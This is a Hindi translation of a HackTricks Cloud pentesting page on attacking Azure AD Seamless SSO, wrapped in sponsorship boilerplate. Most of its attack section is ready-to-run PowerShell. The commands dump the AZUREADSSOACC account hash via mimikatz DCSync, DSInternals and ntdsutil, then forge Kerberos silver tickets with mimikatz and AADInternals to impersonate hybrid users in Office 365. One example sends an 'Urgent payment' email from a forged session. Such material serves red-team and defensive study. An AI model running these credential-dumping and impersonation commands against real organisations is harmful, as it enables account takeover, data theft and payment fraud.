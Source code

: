 # सहज SSO

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एकल [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) **और** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos** में PR जमा करके।

</details>

## मूलभूत जानकारी

Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) स्वचालित रूप से **उपयोगकर्ताओं को साइन इन करता है जब वे अपने कॉर्पोरेट उपकरणों** पर होते हैं जो आपके कॉर्पोरेट नेटवर्क से कनेक्ट होते हैं। जब सक्षम किया जाता है, **उपयोगकर्ताओं को Azure AD में साइन इन करने के लिए अपना पासवर्ड टाइप करने की आवश्यकता नहीं होती है**, और आमतौर पर, अपने उपयोगकर्ता नाम भी टाइप नहीं करते हैं। यह सुविधा आपके उपयोगकर्ताओं को आपके क्लाउड-आधारित एप्लिकेशनों तक आसान पहुंच प्रदान करती है बिना किसी अतिरिक्त ऑन-प्रेमिस कॉम्पोनेंट की आवश्यकता के।

<figure><img src="../../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

मूल रूप से Azure AD Seamless SSO **उपयोगकर्ताओं को साइन इन करता है** जब वे **ऑन-प्रेम डोमेन ज्वाइन्ड पीसी पर** होते हैं।

यह [**PHS (पासवर्ड हैश सिंक)**](phs-password-hash-sync.md) और [**PTA (पास-थ्रू ऑथेंटिकेशन)**](pta-pass-through-authentication.md) द्वारा समर्थित है।

डेस्कटॉप SSO प्रमाणीकरण के लिए **Kerberos** का उपयोग कर रहा है। कॉन्फ़िगर किए जाने पर, Azure AD Connect ऑन-प्रेम AD में **AZUREADSSOACC** नामक एक कंप्यूटर खाता बनाता है। AZUREADSSOACC खाते का पासवर्ड **सादा-पाठ में Azure AD को भेजा जाता है**।

**Kerberos टिकट** को **NTHash (MD4)** का उपयोग करके **एन्क्रिप्ट** किया जाता है और Azure AD टिकट को डिक्रिप्ट करने के लिए भेजे गए पासवर्ड का उपयोग करता है।

**Azure AD** एक **एंडपॉइंट** (https://autologon.microsoftazuread-sso.com) प्रकट करता है जो Kerberos **टिकट** को **स्वीकार** करता है। डोमेन-ज्वाइन्ड मशीन का ब्राउज़र SSO के लिए इस एंडपॉइंट को टिकट फ़ॉरवर्ड करता है।

### ऑन-प्रेम -> क्लाउड

उपयोगकर्ता **AZUREADSSOACC का पासवर्ड कभी नहीं बदलता** है। इसलिए, एक डोमेन व्यवस्थापक इस खाते के **हैश को कंप्रोमाइज़** कर सकता है, और फिर इसका उपयोग करके Azure से कनेक्ट होने के लिए **किसी भी ऑन-प्रेम उपयोगकर्ता को सिंक कर सकता है**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
अब आप हैश के साथ **सिल्वर टिकट उत्पन्न कर सकते हैं**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "97B745CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
चांदी टिकट का उपयोग करने के लिए:

1. _Mozilla Firefox_ लॉन्च करें।
2. **`about:config`** पर जाएं और [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) प्राथमिकता को [मान](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com` पर सेट करें।
3. हमारे AAD डोमेन के साथ एकीकृत किसी भी वेब एप्लिकेशन पर नेविगेट करें। हम [Office 365](https://portal.office.com/) का उपयोग करेंगे, जो सबसे आमतौर पर उपयोग किया जाता है।
4. लॉगऑन स्क्रीन पर पहुँचने पर, उपयोगकर्ता नाम भरें, पासवर्ड फ़ील्ड खाली छोड़ें। फिर TAB या ENTER दबाएं।

<figure><img src="../../../../.gitbook/assets/image (3) (3) (1).png" alt=""><figcaption></figcaption></figure>

#### और यही है! आपको अंदर होना चाहिए! <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

#### ~~क्लाउड-केवल उपयोगकर्ताओं के लिए कर्बेरोस टिकट बनाना~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

यदि Active Directory प्रशासकों के पास Azure AD Connect तक पहुँच है, तो वे **क्लाउड उपयोगकर्ता के लिए SID सेट कर सकते हैं**। इस तरीके से कर्बेरोस **टिकट** क्लाउड-केवल उपयोगकर्ताओं के लिए भी **बनाए जा सकते हैं**। एकमात्र आवश्यकता है कि SID एक उचित [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) हो।

{% hint style="danger" %}
माइक्रोसॉफ्ट द्वारा क्लाउड-केवल व्यवस्थापक उपयोगकर्ताओं के SID को बदलना अब **अवरोधित है**।\
जानकारी के लिए देखें [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

## संदर्भ

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)

<details>

<summary><strong>बढ़िया हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक अनन्य [**NFT**](https://opensea.io/collection/the-peass-family) संग्रह
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके।

</details>
